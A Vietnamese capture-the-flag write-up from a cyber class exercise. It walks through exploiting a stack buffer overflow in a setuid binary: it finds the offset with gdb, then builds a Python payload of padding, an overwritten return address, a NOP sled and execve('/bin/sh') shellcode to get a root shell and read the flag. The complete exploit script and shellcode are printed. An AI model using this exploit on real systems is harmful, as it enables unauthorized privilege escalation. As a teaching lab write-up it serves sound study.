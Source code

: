 # EXTRA CREDIT - CYBERCLASS


<p align="center">
  <img src="image/a.png"  alt="meo coding logo" style="height: 100px; width:100px;"  />
</p>

<p align="center"> <b> Write up by: Zunn</b></p> 

## **Contents**

- [Introduction](#Introduction)
- [Address the problem](#address-the-problem)
  - [GDB](#gdb-secret)
  - [shellcode](#shellcode)
  - [Nopsled](#nopsled)
- [Flag](#flag)

## **Introduction**

- Công cụ em sử dụng để debug là *gdb (plugin peda)*
- Mã khai khác em viết bằng code *python* .

![alt text](image/de.png "Title")

![alt text](image/2.png "Title")

Đề bài cho ta 1 file **executable** và được chạy dưới quyền **suid**, nhiệm vụ phải lon ton lên root để tìm được **flag**. Đầu tiên chạy file **executable** xem có gì trong đó nào...

## **Address the problem**

![alt text](image/3.png "Title")

Hmmmm.....có vẻ như chương trình chỉ in ra lại những gì đã được nhập vào và không còn thông tin nào thêm. Tuy nhiên, ta sẽ bắt đầu tìm hiểu file binary bằng cách in ra xâu có độ dài khá lớn.

```r
  python3 -c "print( 'a' * 10000)" | ./secret
```

![alt text](image/4.png "Title")

`Segmentation fault` :3 Quả nhiên secret bị crash với test của chúng ta. Dễ dàng nhận thấy lỗ hổng stack base `buffer overflow` rất rõ ràng. 

### **GDB secret**

Để thuận tiện hơn ta sẽ tạo một file  **a.txt** để chứa xâu ta cần nhập và ta dùng echo để ghi đè dữ liệu vào.

```r
echo'padding = 100 * 'a'
print (padding)'> a.py
```

```r
python3 a.py> a.txt
```

Giờ thì mở **gdb** lên để phân tích.

![alt text](image/5.png "Title")

Nhìn vào ta thấy chỗ tốt nhất để **break point** là leave trước return **istruction**. Dòng thứ hai từ dưới main lên.

![alt text](image/6.png "Title")

Sau khi run, dựa vào info name ta xác định được đây là [64-bit Stack-based Buffer Overflow](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/64-bit-stack-based-buffer-overflow) và `rip at 0x7fffffffe5b8`

Để tìm buffer’s size, một trong những cách ta có thể dùng sẽ lấy `rip - rsp` . Dùng câu lệnh sau để show 24wx từ vị trí đầu stack.

```r
x/24wx $rsp
```

![alt text](image/8.png "Title")

Dòng đầu tiên ta thấy địa chỉ `0x7fffffffe1b0` mang giá trị `0x61616161` : kí tự `a` bé. Đây chính là đầu vào của chúng ta, yeye đã biết địa chỉ đầu stack giờ ta tính **buffer’s size**.

```r
 p/d 0x7fffffffe5b8 - 0x7fffffffe1b0
```

![alt text](image/9.png "Title")

Vậy **buffer's size** sẽ là 1032 kí tự *a*.

### **Shellcode**

Chuyện gì sẽ xảy ra nếu như ta thay đổi thanh ghi **RIP** thành địa chỉ Shellcode, rõ ràng, chương trình sẽ chạy Shellcode của chúng ta rồi. Thú vị rồi đây.

Khá là đầy đủ thông tin,  giờ ta tiến hành tìm một đoạn shellcode trên **Google** (shell-storm, exploit-db, packetstormsecurity,..). Có kha khá khác nhau để code shell nhưng em sẽ dùng cách **`padding + RIP + NOP + shellcode`**

`Shellcode: Là đoạn code mà chúng ta muốn chương trình execute.`

Dựa vào các thông tin như: 64 bit và file binary chạy dưới quyền **suid**. Vậy shellcode sẽ thực thi **/bin/sh** thì chúng ta sẽ get a root shell. Ok!! Giờ thì ta lên [Shell-strom](http://shell-storm.org/shellcode/#:~:text=by%20Christina%20Quast-,Intel%20x86%2D64,-Linux/x86%2D64) tìm thôiiiiiiii.

Sau khi tìm kiếm và xem xét điều kiện cần và đủ shell code này là phù hợp:

```r
\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05
```

## **Nopsled**

`Nopsled: 0x90 nghĩa là không thực hiện điều gì`

Về cơ bản, không có thao tác nào được sử dụng để đảm bảo rằng việc khai thác của chúng ta không bị lỗi, bởi vì chúng ta không phải lúc nào cũng trỏ đến đúng địa chỉ.Vì vậy chúng ta thêm những thứ không có tác dụng gì và chúng ta trỏ đến chúng, sau đó khi chương trình thực thi nó. Và quaoo sẽ tiếp cận các NOP đó và tiếp tục thực thi cho đến khi nó đạt đến shellcode.

Giờ ta buid code thoi

```r
import struct
offset = 1032
shellcode = b'\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05'
NOP = b'\x90' * 1000
padding = 1032 * b'a'
print (padding + RIP + NOP + shellcode)
```

`Trong quá trình code ta nhận thấy hoặc giờ em mới thấy :))`

[TypeError: can only concatenate str (not "bytes") to str ](
https://bobbyhadz.com/blog/python-typeerror-can-only-concatenate-str-not-bytes-to-str#:~:text=The%20Python%20%22TypeError%3A%20can%20only,string%20before%20concatenating%20the%20strings
)

Giờ chúng ta sẽ gdb để kiểm tra và chọn địa chỉ của NOP ( tốt nhất là nó nằm ở giữa bởi trong quá trình chạy chương trình, địa chỉ có thể chênh lệch khiến NOP mang địa chỉ không theo mong muốn)

![alt text](image/10.png "Title")

Hmmmmmmmm.... chúng ta đang lỗi gì đó dấu '`>`' không chuyển được kí tư utf-8. Giờ ta sẽ nhập xuất file xem như thế nào

```r
import struct
offset = 1032
shellcode = b'\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05'
NOP = b'\x90' * 1000
padding = 1032 * b'a'
p = (padding + NOP + shellcode)
file = open('a.txt' ,'wb')
file.write(p)
file.close()
```

![alt text](image/12.png "Title")

Excute file python thoi -> `python3 a.py > a.txt` và xác định NOP.

![alt text](image/13.png "Title")

Ye rất đúng theo suy nghĩ của chúng ta. Vì shell code chúng ta nằm ở cuối nên ta sẽ in từ vị trí rsp

```r
(gdb) x/100xg $rbp
```
![alt text](image/14.png "Title")

![alt text](image/15.png "Title")

Ta sẽ lấy NOP ở giữa  `0x7fffffffe710` để tránh chênh lệch khi chương trình thực thi. Sau khi có đầy đủ mọi thứ ta sẽ hoàn chỉnh chương trình như sau:

```r
import struct
offset = 1032
RIP = struct.pack('Q',0x7fffffffe710)
shellcode = b'\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05'
NOP = b'\x90' * 1000
padding = 1032 * b'a'
p = (padding + RIP + NOP + shellcode)
file = open('a.txt' ,'wb')
file.write(p)
file.close()
```

Tiến hành chạy lại secret xem có lên được shell hay không?

 ```r
 (cat a.txt ; cat) | ./secret
 ```

![alt text](image/16.png "Title")

Okie, code exploit đã chạy và chúng ta đạ execute shellcode thành công. Thế là ta đã thành công lkhai tháo lỗi Buffer Overflow rồi. Giờ lấy flag thoiii!!

## **Flag**

![alt text](image/17.png "Title")

Ta đã leo lên root nên chỉ cần  `cd /root` ta sẽ thấy file tên `flag-whoa.txt` .UwwwwU `cat flag-whoa.txt` ta dễ dàng có được kết quả mong muốn.

 ```r
 CYBERCLASS{WHOA-BAN-DINK-KOUT-WA-CHUC-MUNG-BAN-!!!}
 ```
